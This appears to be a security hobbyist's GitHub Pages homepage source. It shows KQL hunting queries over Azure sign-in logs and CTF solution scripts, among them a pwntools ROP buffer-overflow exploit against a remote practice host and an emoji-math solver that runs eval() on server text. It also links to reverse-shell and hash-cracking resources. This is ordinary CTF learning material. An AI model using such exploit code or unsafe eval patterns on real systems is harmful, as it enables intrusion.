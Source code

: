 ```yaml
---
layout: default
---            
```

|<script src="https://tryhackme.com/badge/60599"></script> |<script src="https://www.hackthebox.eu/badge/277042"></script>|

[Hack the Box Write Ups](./thm.md)
[Try Hack Me Write Ups](./thm.md)
[Cool Fortune Teller in JS](./fortune.html)

# Kusto Query Language
```kql
SigninLogs
| where TimeGenerated > ago(120d) and UserDisplayName  contains "_target_user_"
| where isnotnull(MfaDetail.authDetail)
| project MfaDetail,LocationDetails, Phone= MfaDetail.authDetail, uName= UserDisplayName,
          myCity=LocationDetails.city, myGeo=LocationDetails.geoCoordinates,
          myLat =LocationDetails.geoCoordinates.latitude  
| project tostring(Phone), tostring(myCity), tostring(myGeo), tostring(myLat)

SigninLogs
| where TimeGenerated > ago(120d)|where isnotnull(DeviceDetail.operatingSystem) and ResultType  != 0 and isnotnull(MfaDetail)
| project UserDisplayName, tostring(DeviceDetail.operatingSystem)
| take 100

SigninLogs
| where TimeGenerated > ago(120d) and UserDisplayName  contains "_target_user_"
| where isnotnull(MfaDetail.authMethod)
| project MfaDetail, UserDisplayName 
| evaluate bag_unpack(MfaDetail, "MH_")
|take 100

let UPN = "target_user@binarydefense.com"; 
let TimeFrame = ago(30d); 
SigninLogs 
| where TimeGenerated > TimeFrame
| where UserPrincipalName =~ UPN
| summarize FirstSeen = min(TimeGenerated), LastObserved = max(TimeGenerated), SuccessfullCount = count(ResultType = 0), FailureCount = count(ResultType != 0) 
by UserPrincipalName, IPAddress, Location, tostring(DeviceDetail.deviceId), UserAgent, ClientAppUsed, AppDisplayName
```

### What about emoji?

```py
#!/usr/bin/env python3

from pwn import *
import re

r = remote("46.101.22.121",30437)
r.recv()
r.sendline("1")
d = r.recv().decode()
e = r.recv().decode()
print(d)
print(e)

emojis = {
"🌞" : re.findall("🌞 -> (\d+)",d)[0],
"🍨" : re.findall("🍨 -> (\d+)",e)[0],
"❌" : re.findall("❌ -> (\d+)",e)[0],
"🍪" : re.findall("🍪 -> (\d+)",e)[0],
"🔥" : re.findall("🔥 -> (\d+)",e)[0],
"⛔" : re.findall("⛔ -> (\d+)",e)[0],
"🍧" : re.findall("🍧 -> (\d+)",e)[0],
"👺" : re.findall("👺 -> (\d+)",e)[0],
"👾" : re.findall("👾 -> (\d+)",e)[0],
"🦄" : re.findall("🦄 -> (\d+)",e)[0]
}

print(str(emojis))

r.sendline("2")

for i in range(1,501):
	ques = r.recv().decode()

	print(ques)

	equation = ''
	for c in ques:
		if c in emojis:
			equation = equation + ' ' + emojis[c]
		elif c in ['*','-','+','-']:
			equation = equation + ' ' + c

	res = eval(equation)
	print(res)
	r.sendline(str(res))

flag = r.recv().decode()

print(flag)
```
### What about BOF?

```py
#!/usr/bin/env python3
from pwn import *

#p = process('./easyrop')
p = remote('hsg1.superhero1.com', 9002)
e = ELF('./easyrop')

ckpt1 = p64(e.symbols.checkpoint1) # finds address
ckpt2 = p64(e.symbols.checkpoint2)
secret = p64(e.symbols.secret)
#print(ckpt1, ckpt2)

# start interaction
# padding 
padding = b'A' *0x68  # 96 + 8 
payload = padding
payload += ckpt1
payload += ckpt2
payload += secret

p.sendline(payload)
data = p.recvall()
print(data)
```

### What about NTP you ask?
```py
#!/usr/bin/env python3
import struct
import socket
import time
import datetime

#  lib8time.cityinthe.cloud port 2038
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

# Bind the socket to the port
server_address = ('lib8time.cityinthe.cloud', 2038)

# Calculate current time
t = int(time.time())

# Create the packet data
packet = struct.pack('>hiqq',4919,1,t,int((time.time() % 1)*1000000))

# Send packet and get response
sock.sendto(packet, server_address)
data, address = sock.recvfrom(4096)

# Unpack the response
r = struct.unpack('>hiqqqq',bytes(data))
print(r)

# Parse the response
ct_s = r[2]
st_s = r[4]
ct_m = r[3]
st_m = r[5]

# Parse the time and convert to readable format in UTC
client_time = time.strftime('%Y-%m-%d %H:%M:%S', time.gmtime(ct_s))
server_time = time.strftime('%Y-%m-%d %H:%M:%S', time.gmtime(st_s))
print("Client time now (UTC):{}".format(client_time))
print("Server time now (UTC):{}".format(server_time))

# Calculate the difference in Hours
print("Hours difference: {}".format((st_s-ct_s)/3600))
```

<script src="https://platform.linkedin.com/badges/js/profile.js" async defer type="text/javascript"></script>
<div class="badge-base LI-profile-badge" data-locale="en_US" data-size="medium" data-theme="dark" data-type="VERTICAL" data-vanity="cyber-consultant" data-version="v1">
</div>

<h3 id="useful-links">Useful links</h3>

<table>
  <thead>
    <tr>
      <th>Link</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><a href="https://tryhackme.com">TryHackMe</a></td>
      <td>TryHackMe - Learn Penetration Testing Skills</td>
    </tr>
    <tr>
      <td><a href="https://hackthebox.eu">HackTheBox</a></td>
      <td>HackTheBox - Learn Penetration Testing Skills</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://book.hacktricks.xyz/">HackTricks</a></td>
      <td>Tricks and Techniques</td>
    </tr>
    <tr>
      <td><a href="https://gtfobins.github.io">GTFOBins</a></td>
      <td>Quick Shell One-liners</td>
    </tr>
    <tr>
      <td><a href="https://www.revshells.com">RevShells</a></td>
      <td>Reverse Shell Command Generator</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://pentest.ws">PenTest.WS</a></td>
      <td>Engagement Utility</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://explainshell.com">ExplainShell</a></td>
      <td>Bash Shell Command Explanation</td>
    </tr>
    <tr>
      <td><a href="https://ss64.com">SS64</a></td>
      <td>Commandline Reference</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://crackstation.net">CrackStation</a></td>
      <td>Online Hash Cracking</td>
    </tr>
    <tr>
      <td><a href="https://gchq.github.io/CyberChef">CyberChef</a></td>
      <td>The Cyber Swiss Army Knife for analysing/encoding/decoding data</td>
    </tr>
    <tr>
      <td><a href="https://www.dcode.fr/en">dCode</a></td>
      <td>dCode is a toolkit website for decryption, ciphertexts</td>
    </tr>
    <tr>
      <td> </td>
      <td> </td>
    </tr>
    <tr>
      <td><a href="https://alomancy.gitbook.io/guides/">Guides</a></td>
      <td>In Depth Guides by <a href="https://www.twitch.tv/alomancy">Alomancy</a></td>
    </tr>
  </tbody>
</table>

<h3 id="credits">Credits</h3>

<p>Huge shoutout to <a href="https://twitch.tv/chadb_n00b">chadb_n00b</a> and to <a href="https://infosecstreams.github.io/">infosecstreams</a> for starting up and initially maintaining the list!</p>